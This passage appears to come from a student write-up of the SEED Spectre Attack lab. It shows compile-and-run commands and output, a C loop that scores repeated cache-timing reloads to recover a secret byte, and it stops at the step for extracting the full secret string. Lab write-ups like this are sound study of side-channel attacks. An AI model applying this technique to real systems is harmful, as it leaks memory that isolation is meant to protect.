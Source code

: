 #### Compile and run

```shell
[06/25/20]seed@VM:~/.../Spectre_Attack$ gcc -march=native SpectreAttack.c -o SpectreAttack
[06/25/20]seed@VM:~/.../Spectre_Attack$ ./SpectreAttack 
array[0*4096 + 1024] is in cache.
The Secret = 0.
array[83*4096 + 1024] is in cache.
The Secret = 83.
```

Some times the`array[0*4096]` will be the results, we can modify the loop to [1， 256] and run multiple times to get `The Secret = 83`

## 4. Improve the Attack Accuracy

From previous results, sometimes they are noise, and sometimes are wrong answer. There are many reasons: the wrong shredhold or the CPU loads other values. Instead of run is multiple times manualy, we can write code to do it.

Create a score array for the 256 elements. If k is hit once, scores[k] will plus 1. After running multiple times, the highest score should be the results.

```c
for (i = 0; i < 256; i++) 
  scores[i] = 0;

for (i = 0; i < 1000; i++) {
  spectreAttack(larger_x);
	reloadSideChannelImproved();
}

int max = 0;
for (i = 0; i < 256; i++){
	if(scores[max] < scores[i])
	max = i;
}
```

But scores[0] always the largest.  In`void reloadSideChannelImproved()`function, modify the loop from [0, 256] to [1, 256].

```shell
[06/25/20]seed@VM:~/.../Spectre_Attack$ gcc -march=native SpectreAttackImproved.c -o SpectreAttackImproved
[06/25/20]seed@VM:~/.../Spectre_Attack$ ./SpectreAttackImproved Reading secret value at 0xffffe80c = The  secret value is 83
The number of hits is 7
```

## 5. Steal the Entire Secret String

Previous tasks only print out the first chracter, we need to modify the code to print out eh secret:
